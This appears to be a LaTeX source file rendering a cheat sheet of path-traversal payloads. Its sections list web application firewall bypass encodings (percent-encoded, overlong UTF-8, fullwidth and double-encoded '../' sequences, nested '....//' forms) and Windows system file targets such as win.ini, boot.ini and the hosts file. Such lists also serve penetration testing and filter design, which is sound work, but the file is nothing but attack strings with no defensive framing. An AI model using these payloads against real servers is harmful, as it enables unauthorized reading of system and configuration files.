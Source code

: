 \documentclass[12pt]{article}
\begin{document}
\subsection{WAF Bypass Techniques}

\subsubsection{Case Manipulation}

\begin{lstlisting}
../
..\\
..\%2f
..%c0%af
..%c1%9c
%2e%2e%2f
%2e%2e/
..%252f
%252e%252e%252f
\end{lstlisting}

\subsubsection{Unicode Bypasses}

\begin{lstlisting}
%c0%ae%c0%ae%c0%af  (Unicode encoding)
%uff0e%uff0e%uff0f   (Fullwidth encoding)
%e0%40%ae%e0%40%ae%e0%40%af
\end{lstlisting}

\subsubsection{Double Traversal}

\begin{lstlisting}
....//
....\/
..././
\end{lstlisting}

\subsection{OS-Specific Paths}

\subsubsection{Windows Path Traversal}

\begin{lstlisting}
..\\..\\..\\windows\\win.ini
..\\..\\..\\boot.ini
..\\..\\..\\autoexec.bat
..\\..\\..\\config.sys
C:\\boot.ini
C:\\windows\\system32\\drivers\\etc\\hosts
\end{lstlisting}
\end{document}
